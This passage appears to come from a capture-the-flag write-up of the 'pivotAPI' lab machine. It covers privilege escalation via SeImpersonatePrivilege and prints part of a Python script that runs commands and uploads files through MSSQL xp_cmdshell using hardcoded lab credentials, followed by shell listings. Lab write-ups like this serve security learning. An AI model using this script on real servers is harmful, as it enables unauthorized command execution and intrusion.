 > **nice, we have `SeImpersonatePrivilege` enabled let's try priv-esc with it now.**

> **But there is a Problem here which we can't upload [PrintSpoofer](https://github.com/dievus/printspoofer) because the firewall blocks all connections.**

> **after doing some search on google i've found a Python script which will login use mssql server and can upload files by it and you can download it from here [mssql_shell.py](https://github.com/Alamot/code-snippets/blob/master/mssql/mssql_shell.py)**

> **we need to add the credentials we got in the code, then run it.**

```ruby

#!/usr/bin/env python
from __future__ import print_function
import _mssql
import base64
import shlex
import sys
import tqdm
import hashlib
from io import open
try: input = raw_input
except NameError: pass
from base64 import encodebytes

MSSQL_SERVER="10.10.10.240"
MSSQL_USERNAME = "sa"
MSSQL_PASSWORD = "#mssql_s3rV1c3!2020"
BUFFER_SIZE = 5*1024
TIMEOUT = 30


def process_result(mssql):
    username = ""
    computername = ""
    cwd = ""
    rows = list(mssql)
    for row in rows[:-3]:
        columns = list(row)
        if row[columns[-1]]:
            print(row[columns[-1]])
        else:
            print()
    if len(rows) >= 3:
        (username, computername) = rows[-3][list(rows[-3])[-1]].split('|')
        cwd = rows[-2][list(rows[-3])[-1]]
    return (username.rstrip(), computername.rstrip(), cwd.rstrip())


def upload(mssql, stored_cwd, local_path, remote_path):
    print("Uploading "+local_path+" to "+remote_path)
    cmd = 'type nul > "' + remote_path + '.b64"'
    mssql.execute_query("EXEC xp_cmdshell '"+cmd+"'")

    with open(local_path, 'rb') as f:
        data = f.read()
        md5sum = hashlib.md5(data).hexdigest()
        b64enc_data = b"".join(base64.b64encode(data).split()).decode()

    print("Data length (b64-encoded): "+str(len(b64enc_data)/1024)+"KB")
    for i in tqdm.tqdm(range(0, len(b64enc_data), BUFFER_SIZE), unit_scale=BUFFER_SIZE/1024, unit="KB"):
        cmd = 'echo '+b64enc_data[i:i+BUFFER_SIZE]+' >> "' + remote_path + '.b64"'
        mssql.execute_query("EXEC xp_cmdshell '"+cmd+"'")
        #print("Remaining: "+str(len(b64enc_data)-i))
```

[pivotAPI]: PS C:\> cd .\Developers\
[pivotAPI]: PS C:\Developers> ls
[pivotAPI]: PS C:\Developers> cd jari
[pivotAPI]: PS C:\Developers\jari> ls